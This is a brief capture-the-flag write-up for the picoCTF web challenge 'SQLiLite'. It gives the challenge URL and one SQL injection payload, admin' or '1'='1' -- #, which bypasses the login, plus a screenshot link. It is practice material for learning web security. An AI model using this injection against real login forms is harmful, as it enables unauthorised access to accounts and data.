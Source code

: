 ```yaml
---
title: PicoCTF - SQLiLite
tags: [PicoCTF, CTF, Web]

---
```


# PicoCTF - SQLiLite
###### tags: `PicoCTF` `CTF` `Web`
Challenge: http://saturn.picoctf.net:55837/

## Exploit - sqli
Payload:
`admin' or '1'='1' -- #`
![](https://i.imgur.com/yNgpTiY.png)